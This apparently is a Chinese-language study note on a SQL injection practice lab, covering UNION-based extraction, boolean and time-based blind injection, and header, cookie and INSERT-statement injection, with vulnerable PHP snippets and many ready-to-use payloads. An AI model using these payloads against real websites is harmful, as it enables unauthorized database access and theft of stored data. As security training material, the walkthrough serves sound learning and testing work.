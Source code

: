## 1-6

有直接的显错以及回显,熟悉一下 SQL injection 的基本套路：

编码， union联合select， mysql 的结构

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
        ...
        //输出结果
  	}
	else 
	{
        //回显错误
        print_r(mysql_error());
        ...
	}
```

1. use for test

?id=0' union select 1,2,3#

?id=0%27%20union%20select%201,2,3%23



2. concat and concat_ws

?id=0' union select 1,2,concat_ws(char(32,58,32),user(),database(),version())#

?id=0%27%20union%20select%201,2,concat_ws(char(32,58,32),user(),database(),version())%23

回显 Your Password:root@localhost : security : 10.1.19-MariaDB


user():返回当前数据库连接使用的用户

database():返回当前数据库连接使用的数据库

version():返回当前数据库的版本



3. select tables test

select table_name from information_schema.tables where table_schema=0x7365637572697479

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1#

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1#

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 2,1#

4. select user tables

>Get databases
?id=0' union select 1,2,SCHEMA_NAME from information_schema.SCHEMATA limit 0,1#



## 7-10

没有回显的情况下，如何使用bool型盲注与时间盲注。

1. substr

select substr(database(),1,1);

select ascii(substr(database(),1,1));


2. bool injection

?id=1′ AND ascii(substr((select database()),3,3))=99#

true:: ?id=1%27%20AND%20ascii(substr((select%20database()),3,3))=98%23
	   ?id=1%27%20AND%20ascii(substr((select%20database()),3,3))=98%23

false: ?id=1%27%20AND%20ascii(substr((select%20database())%20,3,3))%20=%2098%23


3. time based

true:
?id=1' and if(ascii(substr((select database()) ,3,3)) = 99,0,sleep(10)) #
false sleep 10 sec:
?id=1' and if(ascii(substr((select database()) ,3,3)) = 98,0,sleep(10)) #


## 11-17

从get变成了post，参数油一个变成了2个，没有什么特别大的区别

## 18-20

新的内容，HTTP 头注入,cookie注入

```
$uname = check_input($_POST['uname']);	$passwd = check_input($_POST['passwd']); //输入进行了过滤

$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
//但是insert语句中的uagent 与IP没有进行判断，所以可以注入


```

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES (",updatexml(0,concat(0x2b5e,database()),0),',')#。
```

同理 cookie 
```
isset($_COOKIE['uname'])

$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
//虽然输入过滤了，但是对cookie没有过滤
```

## 21，22 跑不起来

## 附 在insert update 语句中注入

``` insert into users (id, username, password) values (2,''inject here'','Olivia'); ```


